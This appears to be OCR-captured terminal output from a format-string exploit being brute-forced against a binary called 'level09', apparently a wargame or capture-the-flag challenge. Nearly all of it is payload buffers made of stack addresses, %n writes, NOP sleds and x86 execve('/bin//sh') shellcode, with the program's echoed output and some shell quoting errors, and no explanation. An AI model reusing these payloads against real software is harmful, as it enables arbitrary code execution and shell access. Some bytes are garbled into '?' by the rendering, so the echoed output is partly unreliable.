 ```
[+] Trying buf '4\xfc\xff\xbfAAAA5\xfc\xff\xbfAAAA6\xfc\xff\xbfAAAA7\xfc\xff\xbf%08x%08x%92x%n%112x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
4???AAAA5???AAAA6???AAAA7???bffffde5000003ff                                                                                      160d7c                                                                                                        41414141                                                                                                                                                                                                                                                               41414141                                                                                                                                                                                        41414141????????????????????????????????????????????????????????????????????????????????????????????????????3?1?Ph//shh/bin??PS??
̀[+] Trying buf '0\xfc\xff\xbfAAAA1\xfc\xff\xbfAAAA2\xfc\xff\xbfAAAA3\xfc\xff\xbf%08x%08x%88x%n%116x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
0???AAAA1???AAAA2???AAAA3???bffffde5000003ff                                                                                  160d7c                                                                                                            41414141                                                                                                                                                                                                                                                               41414141                                                                                                                                                                                        41414141????????????????????????????????????????????????????????????????????????????????????????????????????3?1?Ph//shh/bin??PS??
̀[+] Trying buf ',\xfc\xff\xbfAAAA-\xfc\xff\xbfAAAA.\xfc\xff\xbfAAAA/\xfc\xff\xbf%08x%08x%84x%n%120x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
,???AAAA-???AAAA.???AAAA/???bffffde5000003ff                                                                              160d7c                                                                                                                41414141                                                                                                                                                                                                                                                               41414141                                                                                                                                                                                        41414141????????????????????????????????????????????????????????????????????????????????????????????????????3?1?Ph//shh/bin??PS??
̀[+] Trying buf '(\xfc\xff\xbfAAAA)\xfc\xff\xbfAAAA*\xfc\xff\xbfAAAA+\xfc\xff\xbf%08x%08x%80x%n%124x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
sh: -c: line 0: syntax error near unexpected token `$'\374\377\277AAAA''
sh: -c: line 0: `./level09 (???AAAA)???AAAA*???AAAA+???%08x%08x%80x%n%124x%n%263x%n%192x%n????????????????????????????????????????????????????????????????????????????????????????????????????3?1?Ph//shh/bin??PS??
̀'
[+] Trying buf "$\xfc\xff\xbfAAAA%\xfc\xff\xbfAAAA&\xfc\xff\xbfAAAA'\xfc\xff\xbf%08x%08x%76x%n%128x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80"
sh: -c: line 0: unexpected EOF while looking for matching `''
```